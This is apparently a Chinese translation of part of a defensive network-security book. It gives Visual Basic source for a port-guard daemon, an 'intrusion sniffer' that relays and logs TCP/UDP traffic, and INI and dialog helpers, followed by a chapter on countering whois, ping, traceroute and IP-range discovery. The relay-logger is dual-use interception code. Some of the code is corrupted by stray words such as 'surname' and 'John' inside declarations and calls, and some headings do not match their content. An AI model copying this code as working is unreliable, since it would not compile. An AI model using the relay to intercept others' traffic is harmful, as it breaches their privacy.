If DaemonPort = "" Then Exit Sub
For i = 1 To Len(DaemonPort)
    If Asc(Right$(DaemonPort, i)) < 48 Or Asc(Right$(DaemonPort, i)) >
57 Then
        MsgBox "Please enter in a valid Port number."
        DaemonPort = ""
        Exit Sub
    End If
Next i
wsk.LocalPort = DaemonPort
wsk.listen
Text1.Text = Text1.Text & "Your IP: " & Wsk.LocalIP & " Daemon Port: " &
DaemonPort & vbCrLf
End Sub
```

```
Private Sub Rset_Click()
wsk.Close
wsk.listen
Text1.Text = Text1.Text & "Daemon Reset" & vbCrLf
End Sub
```

```
Private Sub stp_Click()
wsk.Close
Text1.Text = Text1.Text & "Daemon Stoped Listening." & vbCrLf
End Sub
```

```
Private Sub Text1_Change()
Text1.SelStart = Len(Text1.Text)
If Len(Text1.Text) > 47775 Then
    Text1.Text = ""
End If
End Sub
```

```
Private Sub wsk_Close()
wsk.Close
wsk.listen
Text1.Text = Text1.Text & "Remote Intruder Logged Off, Daemon Reset." & vbCrLf
End Sub

Private Sub wsk_ConnectionRequest(ByVal requestID As Long)
If wsk.State <> sckClosed Then wsk.Close
wsk.Accept requestID
RMN = DNS.AddressToName(wsk.RemoteHostIP)
RIP = wsk.RemoteHostIP
Label1.Caption = RMN
RMN = Label1.Caption
Text1.Text = Text1.Text & "Remote Intruder Logged On: " & RMN & "(" & RIP & ")" & vbCrLf
End Sub

Private Sub wsk_DataArrival(ByVal bytesTotal As Long)
wsk.GetData RxData
Text1.Text = Text1.Text & RxData
End Sub

Private Sub wsk_Error(ByVal Number As Integer, Description As String,
    ByVal Scode As Long, ByVal Source As String, ByVal HelpFile As String,
    ByVal HelpContext As Long, CancelDisplay As Boolean)
wsk.Close
If DaemonPort <> "" Then
    wsk.LocalPort = DaemonPort
    wsk.listen
End If
Text1.Text = Text1.Text & "Winsock Error: " & Number & ": " & Description & vbCrLf
Text1.Text = Text1.Text & "Daemon was reset." & vbCrLf
End Sub
```

### 攻击偏好

```
Private Sub chkBeep_Click()
Dim strINIFILE As String
strINIFILE = APPPATH & INIFILE
    If chkBeep.Value = vbChecked Then
        WriteINI strINIFILE, "GENERAL", "BEEP", "1"
    Else
        WriteINI strINIFILE, "GENERAL", "BEEP", "0"
    End If
End Sub

Private Sub cmdCancel_Click()
    Unload Me
End Sub

Private Sub cmdOk_Click()
    ANTI_FLOOD_COUNT = txtConnectTimes
    SaveINISettings
    Unload Me
End Sub

Private Sub Form_Load()
Me.Icon = frmMain.Icon
txtConnectTimes = ANTI_FLOOD_COUNT
Select Case ANTI_FLOOD_ACTION
    Case 1
        optResetPort.Value = True
    Case 2
        optShutPort.Value = True
    Case Else
End Select
End Sub

Private Sub optResetPort_Click()
    ANTI_FLOOD_ACTION = 1
End Sub

Private Sub optShutPort_Click()
    ANTI_FLOOD_ACTION = 2
End Sub
```

### 策略创建

```
Private Sub Cancel_Click()
Unload Me
End Sub

Private Sub cmdOk_Click()
If txtPortNumber <> "" Then
    If IsNumeric(txtPortNumber) = True Then
        If txtPortNumber >= 1 Then
            If PortExists = False Then
                If txtPortName = "" Then
                    frmMain.lvwPortInfo.ListItems.Add , ,
    txtPortNumber
                Else
                    frmMain.lvwPortInfo.ListItems.Add , ,
    txtPortName
                End If
                With
    frmMain.lvwPortInfo.ListItems(frmMain.lvwPortInfo.ListItems.Count)
                        .SubItems(1) = txtPortNumber
                        .SubItems(3) = "Disabled"
                        .SubItems(4) = "Never"
                        .SubItems(5) = "0"
                End With
            Else
                Exit Sub
            End If
        Else
            GoTo bad_port
        End If
    Else
        GoTo bad_port
    End If
Else
    GoTo bad_port
End If

Unload Me
Exit Sub

bad_port:
    MsgBox "You must enter a valid port number to continue!",
             vbExclamation, "Error!"

End Sub

Function PortExists() As Boolean
Dim i As Integer
For i = 1 To frmMain.lvwPortInfo.ListItems.Count
    If frmMain.lvwPortInfo.ListItems(i).SubItems(1) = txtPortNumber Then
        MsgBox "That port is already guarded!", vbExclamation, "Error!"
        PortExists = True
        Exit Function
    End If
Next i
PortExists = False
End Function

Private Sub Form_Load()
    Me.Icon = frmMain.Icon
End Sub

Private Sub txtPortName_GotFocus()
    txtPortName.SelStart = 0
    txtPortName.SelLength = Len(txtPortName)
End Sub

Private Sub txtPortNumber_GotFocus()
    txtPortNumber.SelStart = 0
    txtPortNumber.SelLength = Len(txtPortNumber)
End Sub
```

## 入侵嗅探器

```
Private Sub cmdListen_Click()
    Select Case cmdListen.Caption
    Case Is = "Listen"
        If opTCP.Value Then
            Inet.Protocol = sckTCPProtocol
            Inet2.Protocol = sckTCPProtocol
            Inet.LocalPort = CInt(txtLocalPort.Text)
            Inet.RemoteHost = txtRemoteIP.Text
            Inet.RemotePort = CInt(txtRemotePort.Text)
            txtLocalPort.Enabled = False
            txtRemoteIP.Enabled = False
            txtRemotePort.Enabled = False
            cmdListen.Caption = "Reset"
            Inet.Close
            Inet.listen
            log "I>Capturing TCP traffic on " & Inet.LocalIP & ":" & Inet.LocalPort
        Else
            Inet.Close
            Inet2.Close
            Inet.Protocol = sckUDPProtocol
            Inet2.Protocol = sckUDPProtocol
            Inet.LocalPort = CInt(txtLocalPort.Text)
            Inet2.RemoteHost = txtRemoteIP.Text
            Inet2.RemotePort = CInt(txtRemotePort.Text)
            txtLocalPort.Enabled = False
            txtRemoteIP.Enabled = False
            txtRemotePort.Enabled = False
            cmdListen.Caption = "Reset"
            Inet.Bind CInt(txtLocalPort.Text)
            log "I>Capturing UDP traffic on " & Inet.LocalIP & ":" & Inet.LocalPort
        End If
    Case Is = "Reset"
        Inet.Close
        Inet2.Close
        txtLocalPort.Enabled = True
        txtRemoteIP.Enabled = True
        txtRemotePort.Enabled = True
        cmdListen.Caption = "Listen"
    End Select
End Sub

Private Sub Command1_Click()
txtLog.Text = ""
End Sub

Private Sub Form_Load()
txtLocalIP.Text = Inet.LocalIP
End Sub

Private Sub Form_Resize()
If Not Me.WindowState = vbMinimized Then
    txtLog.Width = Me.ScaleWidth
    txtLog.Height = Me.Height - 850
End If
End Sub

Private Sub Inet_Close()
log "I>INET EVENT: CLOSED CONNECTION"
Inet2.Close
cmdListen_Click
cmdListen_Click
End Sub

Private Sub Inet_Connect()
log "I>INET EVENT: CONNECT"
End Sub

Private Sub Inet_ConnectionRequest(ByVal requestID As Long)
log "I>INET EVENT: CONNECTION REQUEST [ " & requestID & " ]"
If Inet.State <> sckClosed Then Inet.Close
log "I>CONNECTING 0 TO " & txtRemoteIP.Text & ":" &
  CInt(txtRemotePort.Text)
Inet2.Close
Inet2.Connect txtRemoteIP.Text, CInt(txtRemotePort.Text)
Do Until Inet2.State = sckConnected
  DoEvents
Loop
Inet.Accept requestID
End Sub

Private Sub Inet_DataArrival(ByVal bytesTotal As Long)
Dim sData As String
Dim bData() As Byte
If opTCP.Value Then
  Inet.PeekData sData, vbString
  Inet.GetData bData(), vbArray + vbByte
  Inet2.SendData bData()
Else
  Inet.GetData sData
  Inet2.SendData sData
End If
log "I>" & sData
Exit Sub
errd:
Inet.Close
Inet2.Close
cmdListen_Click
cmdListen_Click
End Sub

Private Sub Inet_Error(ByVal Number As Integer, Description As String,
  ByVal Scode As Long, ByVal Source As String, ByVal HelpFile As String,
  ByVal HelpContext As Long, CancelDisplay As Boolean)
log "I>INET ERROR: " & Number & " = " & Description
End Sub

Public Sub log(Text As String)
On Error GoTo erred
txtLog.Text = txtLog.Text & Text & vbCrLf
txtLog.SelStart = Len(txtLog.Text)
Exit Sub
erred:
txtLog.Text = ""
txtLog.Text = txtLog.Text & Text & vbCrLf
txtLog.SelStart = Len(txtLog.Text)
End Sub

Private Sub Inet2_Close()
log "O>INET EVENT: CLOSED CONNECTION"
Inet.Close
cmdListen_Click
cmdListen_Click
End Sub

Private Sub Inet2_DataArrival(ByVal bytesTotal As Long)
On Error GoTo erred
Dim sData As String
Dim bData2() As Byte
If opTCP.Value Then
  Inet2.PeekData sData, vbString
  Inet2.GetData bData2(), vbArray + vbByte
  Inet.SendData bData2()
Else
  Inet2.GetData sData
  Inet.SendData sData
End If
log "O>" & sData
Exit Sub
erred:
Inet.Close
Inet2.Close
cmdListen_Click
cmdListen_Click
End Sub

Private Sub Inet2_Error(ByVal Number As Integer, Description As String,
  ByVal Scode As Long, ByVal Source As String, ByVal HelpFile As String,
  ByVal HelpContext As Long, CancelDisplay As Boolean)
log "O>INET ERROR: " & Number & " = " & Description
End Sub

Private Sub txtLocalPort_Change()
```


 # 通用操作模块

```
txtRemotePort.Text = txtLocalPort.Text
End Sub
```

```
Public Declare Function ShellExecute Lib "shell32.dll" Alias
  "ShellExecuteA" (ByVal hwnd As Long, ByVal lpOperation As String,
  ByVal lpFile As String, ByVal lpParameters As String, ByVal
  lpDirectory As String, ByVal nShowCmd As Long) As Long
Public Const INIFILE = "TIGERGUARD.INI"
Public Const CR = vbCrLf
Public MAX_PORTS As Integer
Public ANTI_FLOOD_COUNT As Integer
Public ANTI_FLOOD_ACTION As Integer
Public BEEPONCONNECT As String * 1
Public Type PORTENTRY
    PORTNAME As String * 255
    PORTNUMBER As Long
End Type
```

```
Public Function APPPATH() As String
If Right(App.Path, 1) <> "\" Then
    APPPATH = App.Path & "\" 
Else
    APPPATH = App.Path
End If
End Function
```

```
Public Function DOESINIEXIST() As Boolean
If Dir(APPPATH & INIFILE) = "" Then
    DOESINIEXIST = False
Else
    DOESINIEXIST = True
End If
End Function
```

```
Public Sub LoadINISettings()
Dim strTempVal As String
strTempVal = ReadINI(APPPATH & INIFILE, "GENERAL", "MAXPORTS")
If strTempVal <> "" Then
    If IsNumeric(strTempVal) = True Then
        If strTempVal >= 1 Then
            MAX_PORTS = strTempVal
            GoTo INIVAL2
        Else
            GoTo bad_max_port
        End If
        GoTo bad_max_port
    End If
    GoTo bad_max_port
```

```
End If
INIVAL2:
strTempVal = ReadINI(APPPATH & INIFILE, "GENERAL", "ANTIFLOODCOUNT")
If strTempVal <> "" Then
    If IsNumeric(strTempVal) = True Then
        If strTempVal >= 1 Then
            ANTI_FLOOD_COUNT = strTempVal
            GoTo INIVAL3
        Else
            GoTo bad_flood_count
        End If
        GoTo bad_flood_count
    End If
    GoTo bad_flood_count
End If
```

```
INIVAL3:
strTempVal = ReadINI(APPPATH & INIFILE, "GENERAL", "ANTIFLOODACTION")
If strTempVal <> "" Then
    If IsNumeric(strTempVal) = True Then
        If strTempVal >= 1 Then
            ANTI_FLOOD_ACTION = strTempVal
            Exit Sub
        Else
            GoTo bad_flood_count
        End If
        GoTo bad_flood_count
    End If
    GoTo bad_flood_count
End If
```

```
BEEPONCONNECT = ReadINI(APPPATH & INIFILE, John, "BEEP")
Exit Sub
```

```
bad_max_port:
    MsgBox "Invalid Maximum Policies entry in INI file. Please re-
install." & CR & CR & "Using Default of 40", vbExclamation, "Error!"
    MAX_PORTS = 40
    Exit Sub
```

```
bad_flood_count:
    MsgBox "Invalid Denial of Service in INI file. Please re-install." &
CR & CR & "Using Default of 100", vbExclamation, "Error!"
    ANTI_FLOOD_COUNT = 100
    Exit Sub
```

```
bad_flood_action:
    MsgBox "Invalid Denial of Service entry in INI file. Please re-
install." & CR & CR & "Using default (Reset Port)", vbExclamation,
"Error!"
    ANTI_FLOOD_ACTION = 1
    Exit Sub
End Sub
```

```
Public Sub SaveINISettings()
```

```
Dim strINIFILE As String
Dim strTmpVal As String
strINIFILE = APPPATH & INIFILE
strTmpVal = MAX_PORTS
WriteINI strINIFILE, "GENERAL", "MAXPORTS", strTmpVal
strTmpVal = ANTI_FLOOD_ACTION
WriteINI strINIFILE, "GENERAL", "AntiFloodAction", strTmpVal
strTmpVal = ANTI_FLOOD_COUNT
WriteINI strINIFILE, "GENERAL", "AntiFloodCount", strTmpVal
If frmMain.chkAntiFlood.Value = vbChecked Then
    WriteINI strINIFILE, "GENERAL", "AntiFloodEnable", "1"
Else
    WriteINI strINIFILE, "GENERAL", "AntiFloodEnable", "0"
End If
End Sub
```

### ' INI 控制

```
Declare Function WritePrivateProfileString Lib "kernel32" Alias
"WritePrivateProfileStringA" (ByVal lpApplicationName As String, ByVal
lpKeyName As Any, ByVal lpString As Any, ByVal lpFileName As String)
As Long
Declare Function GetPrivateProfileString Lib "kernel32" Alias
"GetPrivateProfileStringA" (ByVal lpApplicationName As String, ByVal
lpKeyName As Any, ByVal lpDefault As String, ByVal lpReturnedString As
String, ByVal nSize As Long, ByVal lpFileName As String) As Long
Public Ret As String

Public Sub WriteINI(Filename As String, Section As String, Key As
String, Text As String)
WritePrivateProfileString Section, Key, Text, Filename
End Sub

Public Function ReadINI(Filename As String, Section surname As String, Key As
String)
Ret = Space$(255)
RetLen = GetPrivateProfileString(Section, Key, "", Ret, Len(Ret),
Filename)
Ret = Left$(Ret, RetLen)
ReadINI = Ret
End Function
```

### ' 通用对话框

```
Private Declare Function GetSaveFileName Lib "comdlg32.dll" Alias
"GetSaveFileNameA" (pOpenfilename As OPENFILENAME) As Long
Private Declare Function GetOpenFileName Lib "comdlg32.dll" Alias
"GetOpenFileNameA" (pOpenfilename As OPENFILENAME) As Long
Private Filename As OPENFILENAME
Private Type OPENFILENAME
```

```
lStructSize As Long
hwndOwner As Long
hInstance As Long
lpstrFilter As String
lpstrCustomFilter As String
nMaxCustFilter As Long
nFilterIndex As Long
lpstrFile As String
nMaxFile As Long
lpstrFileTitle As String
nMaxFileTitle As Long
lpstrInitialDir As String
lpstrTitle As String
flags As Long
nFileOffset As Integer
nFileExtension As Integer
lpstrDefExt As String
lCustData As Long
lpfnHook As Long
lpTemplateName As String
End Type
```

```
Public Property Let DefaultExtension(Extention As String)
    Filename.lpstrDefExt = Extention
End Property
```

```
Public Property Get DefaultExtension() As String
    DefaultExtension = Filename.lpstrDefExt
End Property
```

```
Public Property Let ObjectOwner(Objet As Object)
    Filename.hwndOwner = Objet.hwnd
End Property
```

```
Public Property Let Filter(CustomFilter As String)
    Dim intCount As Integer
    Filename.lpstrFilter = ""
    For intCount = 1 To Len(CustomFilter)
        If Mid(CustomFilter, intCount, 1) = "|" Then
    Filename.lpstrFilter = Filename.lpstrFilter + Chr(0) Else
    Filename.lpstrFilter = Filename.lpstrFilter + Mid(CustomFilter,
    intCount, 1)
    Next intCount
    Filename.lpstrFilter = Filename.lpstrFilter + Chr(0)
End Property
```

```
Public Property Let WindowTitle(Title As String)
    Filename.lpstrTitle = Title
End Property
```

```
Public Property Get WindowTitle() As String
    WindowTitle = Filename.lpstrTitle
End Property
```

```
Public Property Let InitialDirectory(InitDir As String)
    Filename.lpstrInitialDir = InitDir
End Property
```

```
Public Property Let DefaultFilename(strFilename As String)
    Filename.lpstrFileTitle = strFilename
End Property
```

```
Public Property Get DefaultFilename() As String
    DefaultFilename = Filename.lpstrFileTitle
End Property
```

```
Public Property Get InitialDirectory() As String
    InitialDirectory = Filename.lpstrInitialDir
End Property
```

```
Public Function GetFileOpenName(Optional Multiselect As Boolean = False)
As String
    Filename.hInstance = App.hInstance
    Filename.hwndOwner = hwnd
    Filename.lpstrFile = Chr(0) & Space(259)
    Filename.lpstrFileTitle = Filename.lpstrFileTitle
    Filename.nMaxFile = 260
    If Multiselect Then Filename.flags = &H80000 Or &H4 Or &H200 Else
Filename.flags = &H80000 Or &H4
    Filename.lStructSize = Len(Filename)
    GetOpenFileName Filename
    GetFileOpenName = Filename.lpstrFile
End Function
```

```
Public Function GetFileSaveName() As String
    Filename.hInstance = App.hInstance
    Filename.hwndOwner = hwnd
    Filename.lpstrFile = Chr(0) & Space(259)
    Filename.nMaxFile = 260
    Filename.flags = &H80000 Or &H4
    Filename.lStructSize = Len(Filename)
    GetSaveFileName Filename
    GetFileSaveName = Filename.lpstrFile
End Function
```

```
Public Function Count() As Integer
    Dim intCount As Integer
    For intCount = 1 To Trim(Len(Filename.lpstrFile))
        If Mid(Trim(Filename.lpstrFile), intCount, 1) = Chr(0) Then
    Count = Count + 1
```

```
Next intCount
    Count = Count - 2
    If Count < 1 Then Count = Count + 1
End Function

Public Function GetMultiFilename(Filenumber As Integer) As String
    Dim intCount As Integer
    Dim intOne As Integer
    Dim intFile As Integer
    Dim intNext As Integer
    intOne = InStr(1, Trim(Filename.lpstrFile), Chr(0))
    intFile = 1
    For intCount = 1 To Filenumber
        intFile = InStr(intFile + 1, Trim(Filename.lpstrFile), Chr(0))
    Next intCount
    intNext = InStr(intFile + 1, Trim(Filename.lpstrFile), Chr(0))
    GetMultiFilename = IIf(Right(Mid(Trim(Filename.lpstrFile), 1, intOne
- 1), 1) = "\ ", Mid(Trim(Filename.lpstrFile), 1, intOne - 1),
Mid(Trim(Filename.lpstrFile), 1, intOne - 1) + "\ ") +
Mid(Trim(Filename.lpstrFile), intFile + 1, intNext - intFile - 1)
    If Right(GetMultiFilename, 1) = "\ " Then GetMultiFilename =
Left(GetMultiFilename, Len(GetMultiFilename) - 1)
End Function
```

### 结论

到此为止，我们一直在研究可识别服务的对策，结合常见端口和隐藏端口。为此，我们回顾了系统清理工具和手动 Tiger 技术，并评估了系统保护软件，从商业软件到自定义软件套件。现在是时候进入下一章，学习如何在黑客分析的**第一阶段**——**发现阶段**——进行防护。


 ## 发现对策

经过预谋的、严重的黑客攻击 attempt 需要一些对目标网络的了解。发现是针对本地或远程网络进行攻击规划的第一个过程。（回想一下，远程黑客攻击被定义为使用通信协议通过通信介质从目标网络外部发起的攻击。）在远程攻击的发现阶段，这些关键信息是制定黑客攻击策略所必需的，其中包括选择最佳的渗透 modus operandi。

发现也是有效安全审计的主要组成部分。通常，全面的外部审计在非高峰时段进行，以尽量减少对目标网络的影响和/或观察。目标发现（也称为*fingerprinting*和*enumeration*）在检查过程中的作用是帮助制定"行动计划"，以进一步阐明目标的活动端口和服务中可能存在的潜在安全弱点。

良好的安全检查应符合 CERT（计算机应急响应小组）协调中心（www.cert.org）、SANS（系统管理、网络和安全）研究所（Incidents-Org www.incidents.org）、SecurityFocus Bugtraq（online.securityfocus.com/archive/1）和 RHN（Red Hat 网络）警报（www.redhat.com/apps/support/errata/index.html）等组织发布的漏洞，并包括针对 PC 系统、服务器、防火墙、代理、交换机、调制解调器和筛选路由器执行扫描以识别安全漏洞的必要工具。这些扫描通过针对目标系统运行模块来工作。模块是程序——例如本章中定义的那些——有时是一些代码和脚本片段，用于检查目标系统上的潜在漏洞，有时尝试在某种程度上利用这些漏洞。这些都是发现阶段的一部分。模块通常根据其功能进行分组。例如，一些模块只是收集关于目标的信息，比如哪些端口是活动的并处于"监听"状态；另一些则更为复杂，需要一些关于目标的知识来执行特定的防火墙测试、连接到特定的服务，等等。

本章基于对包括 whois、网站暴露、IP 范围和端口扫描、追踪、域名服务（DNS）查询、NetBIOS 审计、SNMP 窥探和社会入侵等发现方法的反制措施。为了演示这些反制措施，我们将回顾一个虚构的目标公司——在*Hack Attacks Revealed, Second Edition*中介绍的 XYZ 公司。

### whois 信息

攻击者可以使用 whois 在互联网上定位目标公司的网络域名，更重要的是，获取注册联系人的详细信息。请记住，域名是连接到互联网或任何其他 TCP/IP 网络的设备的地址，该系统使用词语来标识服务器（组织和类型），形式如下：www.company-name.com。whois 服务使查询能够获取信息，例如给定公司的统一资源定位符（URL），或者更糟的是，在该域拥有账户的用户。

识别可能的关键信息泄露与您的域相关是非常重要的。以下是提供 whois 服务的域的 URL 列表：

- www.networksolutions.com/cgi-bin/whois/whois，用于北美。
- www.ripe.net，用于欧洲相关信息。
- www.apnic.net，用于亚太地区相关信息。

为了照顾那些没有读过*Hack Attacks Revealed, Second Edition*的人，关于上述 XYZ 公司的简要回顾：在那本书中，使用 whois，我们发现了关于 XYZ 公司的以下关键信息：地址、管理联系人、技术联系人、计费联系人和 DNS 地址。我们的发现为进一步的发现以及最终的黑客攻击奠定了基础。

为了关闭使用 whois 打开的潜在"漏洞"，建议与第三方提供商签约修改域名信息。互联网服务提供商（ISP）以最低费用提供域名托管服务——使这一改变成为显而易见的选择。第一步是找到一级 ISP，最好是提供必要的反 DNS 欺骗等服务的提供商。确保提供商包含符合您内部政策的正常运行时间政策。一些 ISP 保证 99% 的正常运行时间，拥有最先进的容错和自动故障转移基础设施设计。"一级"也意味着距离互联网的最少跳数。例如，一些提供商实际上是"中间商"；也就是说，他们转售大型提供商的服务，这会增加到实际互联网骨干网的跳数。您可以查询提供商并使用追踪路由进行测试，以找出跳数距离。从互联网到这些服务的跳数越少，意味着需要担心的设备就越少，无论是黑客攻击、设备故障、计划停机时间等等。

与一级提供商签约后，您必须修改您的域名信息。即使您决定不外包这些服务，您也可能希望更改任何关键信息。为了我们的 XYZ 公司示例的目的，我们将访问 www.networksolutions.com/makechanges/forms.html 的修改表单。这些表单包括联系人和主机信息的修改；该网站已经更新，您可以在线填写字段，通过电子邮件提取必要的表单，然后将自动表单转发给例如 hostmaster@networksolutions.com（见图 3.1）。

请记住，冒充可能的可信来源的未经授权的个人可能会使用其中一些信息进行社会工程攻击（本章后面会有更多关于社会工程的内容）。另一种选择是使用别名联系信息注册域名，在这种情况下，应使用通用联系人或别名以及通用电子邮件地址。

还应进一步：
1. 从提供商处获取联系人姓名。
2. 从提供商处获取联系人地址或使用邮政信箱。
3. 获取联系人电话号码：使用公司内部 PBX 或其他电话系统外的直接语音信箱，或使用寻呼机号码。
4. 从提供商处获取联系人电子邮件地址或使用第三方账户，例如 @Yahoo.com、@Hotmail.com、@Mail.com。
5. 从提供商处获取域名服务器。

**图 3.1** 进行域名修改可以是一个简单的过程。

如果在线修改请求存在问题，和/或如果您希望您的新提供商为您处理这些问题，可以使用以下格式提交您的请求：

- 授权域名注册修改请求（见图 3.2）。
- 授权个人联系人记录修改（见图 3.3）。
- 授权角色账户联系人记录修改（见图 3.4）。
- 授权主机/域名服务器记录请求（见图 3.5）。

---

通过传真发送至 (703) 742-9552 的授权书

用于域名记录修改

致：Network Solutions, Inc.

505 Huntmar Park Drive

Herndon, VA 20170

收件人：Network Solutions 注册服务

关于：域名：(company.com) 跟踪号：NIC-12345

尊敬的 Network Solutions，

我代表位于（地址）的（公司名称）（上述引用域名的注册人），请求 Network Solutions 按照每个相应的域名注册协议中出现的指示修改域名注册记录。

我已被注册人授权提出此请求。

谢谢，

签名：________________________


## 授权传真书 发送至 (703) 742-9552
用于个人联系人记录修改

致：Network Solutions, Inc.
505 Huntmar Park Drive
Herndon, VA 20170

收件人：Network Solutions 注册服务
主题：联系人姓名：(Name)

尊敬的 Network Solutions：

本人 (Name) 请求 Network Solutions 修改我的个人信息，该信息已在之前提交的、以下方 NIC 跟踪编号对应的联系人模板中提供。

跟踪编号：NIC-12345

随信附上相关文件复印件，用以证明本人身份及目前在贵方 WHOIS 数据库中列明的地址。

此致，

签名：_________________________

姓名：
职务：
电话：
电子邮件：

图 3.3 修改个人联系人记录。

## 授权传真书 发送至 (703) 742-9552
角色账户联系人记录修改

致：Network Solutions, Inc.
505 Huntmar Park Drive
Herndon, VA 20170

收件人：Network Solutions 注册服务

主题：联系人角色账户 NIC 代号：(Handle)

尊敬的 Network Solutions：

本人代表位于 (Address) 的 (Name)（即上述联系人记录所属机构），请求 Network Solutions 修改角色账户信息，该信息已在之前提交的、以下方 NIC 跟踪编号对应的联系人模板中提供。

跟踪编号：NIC-12345

本人经该机构授权提出此请求。

此致，

签名：_________________________

姓名：
职务：
电话：
电子邮件：

图 3.4 角色账户联系人记录修改请求格式。

## 授权传真书 发送至 (703) 742-9552
用于主机/域名服务器记录修改

致：Network Solutions, Inc.
505 Huntmar Park Drive
Herndon, VA 20170

收件人：Network Solutions 注册服务

主题：父域名：(company.com) 跟踪编号：NIC-12345

尊敬的 Network Solutions：

本人代表 (Company Name)（即上述"父"域名的注册人），请求 Network Solutions 修改主机/域名服务器记录，该记录已在之前提交的、以上方 NIC 跟踪编号对应的域名服务器模板请求中描述。

本人经注册人授权提出此请求。

此致，

签名：_______________________________

姓名：
职务：
电话：
电子邮件：

图 3.5 主机/域名服务器记录请求格式。

## 主机 PING/NSLookup 信息

通过执行主机 PING 或 NSLookup，入侵者可以获取 www.xyzinc.com 的 IP 地址。请注意，PING 是 Packet INternet Groper 的首字母缩写，是一种测试特定计算机是否"存活"或已连接（即对本例中的互联网做出 ICMP 回显请求响应）的工具；它会发送一个 ICMP 回显请求数据包。当目标系统收到请求后，会返回一个回复，将原始回显请求数据包放入回显回复的数据字段中。此外，它还会解析其 IP 地址。

PING 可以在 Microsoft Windows 的 MS-DOS 窗口或 *NIX 的终端控制台会话中执行。PING 命令揭示 IP 地址的过程可分为五个步骤：

1. 某个工作站执行 PING 请求。
2. 该请求向您的 DNS 或您的 ISP 注册 DNS 查询域名解析。
3. 由于本例中的 URL www.xyzinc.com 对于您的网络来说是外部地址，查询将被发送到互联网上的某个 DNS 服务器。
4. 在该 DNS 服务器上，xyzinc.com 域名与 XYZ 自己的 DNS 或 ISP DNS 的 IP 地址（来自图 3.6 的 207.237.2.2）匹配并转发。
5. XYZ Inc. 的 ISP 托管 DNS 服务，将 www.xyzinc.com 域名匹配并解析为 IP 地址，然后将数据包转发至 XYZ 的 Web 服务器，最终返回响应。

| 注册人： | |
|---|---|
| XYZ, Inc. (XYZINC-DOM) | |
| 123 Anystreet Ave. | |
| Ft. Pierce, FL. 34981 | |
| US | |
| | |
| 域名：XYZINC.COM | |
| | |
| 管理联系人： | |
| Thompson, Bill (BT4511) BTHOMPSON@XYZINC.COM | |
| 561-359-3001 (传真) 561-359-3002 | |
| | |
| 技术联系人、账单联系人： | |
| HOSTMASTER (HO1511) HOSTMASTER@ISP.COM | |
| 800-929-1922 | |
| | |
| 记录最后更新于 2001-01-31。 | |
| 记录到期日为 2001-11-18。 | |
| 记录创建于 1996-11-17。 | |
| 数据库最后更新于 2001-03-12 17:15:37 EST。 | |
| | |
| 按顺序列出的域名服务器： | |
| NS1.ISP.COM | 207.237.2.2 |
| NS2.ISP.COM | 207.237.2.3 |

图 3.6 下一级信息列出了公司地址、管理联系人、技术联系人、账单联系人以及 DNS 地址。

域名的标准 DNS 条目通常包括 WWW（互联网 Web 服务器）、Mail（邮件 SMTP 网关服务器）和 FTP（FTP 服务器）的名称到 IP 地址记录。扩展 PING 查询可能会揭示目标网络 206.0.125.x 上的这些主机：

```
C:\>ping mail.xyzinc.com

C:\>ping ftp.xyzinc.com
```

PING 查询请求揭示了重要的网络地址信息，显示了 XYZ Inc 的以下 DNS 条目：

| 主机 | 域名 | IP 地址 |
|------|------|---------|
| www | www.xyzinc.com | 206.0.126.10 |
| mail | mail.xyzinc.com | 206.0.126.5 |
| ftp | ftp.xyzinc.com | 206.0.126.12 |

此外，入侵者可以使用 IP 范围扫描工具发现网络中*所有*响应的系统。例如，使用 TigerSuite (www.tigertools.net)，在目标网络上发现了以下信息：

```
开始：206.0.126.1  结束：206.0.126.254

206.0.126.1      ns.xyzinc.com
206.0.126.5      mail.xyzinc.com
206.0.126.8      web.xyzinc.com
206.0.126.10     www.xyzinc.com
206.0.126.11     smtp.xyzinc.com
206.0.126.12     ftp.xyzinc.com
206.0.126.30     sftp.xyzinc.com
206.0.126.89     intranet.xyzinc.com
```

## Traceroute

Traceroute 是一种跟踪数据包从源到目的地并记录其间时间和跳数的工具。这是通过发送具有短增量生存时间（TTL）字段的数据包来实现的，迫使每个主机返回数据包并标识自身。PING 功能可以很好地判断站点是否活跃，而 traceroute 则有助于确定路由中哪个位置存在问题。

执行追踪的优秀可视化工具是 VisualRoute (www.visualware.com/visualroute)，这是一款易于使用的图形化工具，可以精确确定流量在目标目的地和尝试访问它的用户之间的路由上如何流动。VisualRoute 提供路由的地理地图，并报告该路由每个部分的性能。该实用软件可以安装在用户的 PC 上，以确定该 PC 与互联网或企业内联网上任何站点之间的连接性和性能。

VisualRoute 的 traceroute 工具提供三种类型的数据：整体分析、数据表和路由的地理视图。

- 分析是用 plain English 对跳数、问题发生位置以及您尝试访问的站点运行的 Web 服务器软件类型的简要描述。

- 数据表列出每个跳点的信息，包括 IP 地址、节点名称、地理位置以及每个服务器所在的主要互联网骨干网。

- 地理地图给出互联网连接实际路径的图形表示。用户可以缩放和移动地图以定位所需位置。点击服务器或网络名称会打开一个弹出窗口，显示 whois 信息，包括名称、电话号码和电子邮件地址，从而提供即时的问题报告联系信息。

PING/traceroute 可用于发现监听设备。一旦设备响应，可以对该设备运行额外查询以确定是否存在潜在漏洞。建议的修复方法是关闭对 PING 的响应并从路由器和/或周边防火墙阻止 ICMP。这使得入侵者更难发现给定设备，但也会增加故障排除的难度。此外，您可能希望使用网络入侵检测系统（NIDS）监控和检测此类活动——本书后面将介绍。

## 从周边网关阻止 IP 范围扫描

如果您阅读过*《Hack Attacks Revealed, Second Edition》*，就会知道 IP 范围扫描是远程目标发现过程中执行的早期步骤之一。范围扫描器通过扫描整个 IP 地址范围来运作，并报告对 PING 或 ICMP 回显请求活跃或响应的节点。那些活跃的设备会被记录和映射，成为综合目标网络图的一部分。随后进行端口漏洞发现技术。

通过阻止或过滤 IP 范围扫描，可以阻止许多攻击者对潜在易受攻击的系统执行更高级的发现技术。然而，实施这些技术必须谨慎，因为某些系统可能需要使用 PING，因为本地管理和监控套件可能正在进行主动通信请求。一种替代方案是隐式阻止 PING，同时仅允许对授权地址的响应。

IP 扫描防护最有效的方法是通过前端安全网关，如路由器、防火墙和高级代理。作为


决策过程中，请查阅您的网关操作或命令手册，和/或与您的 ISP 讨论解决方案。

本节其余部分将回顾一些在特定网关上进行通用过滤的常见示例。

### 3Com 路由器

要为您的 IP 路由器配置过滤器，请按以下步骤操作：

1. 使用以下命令设置一个或多个过滤策略：

```
ADD -IP FilterAddrs <adr1> [<dir>] <adr2> [<action> [<protocol> [<filterID>]]]<action> = { PROTOcolRssv=<tag> } |
Discard | DODdiscard | Forward | { QPriority = H | M | L } |
X25Profile = <profile>}  <protocol> = DLSW | FTP | IP | IPDATA |
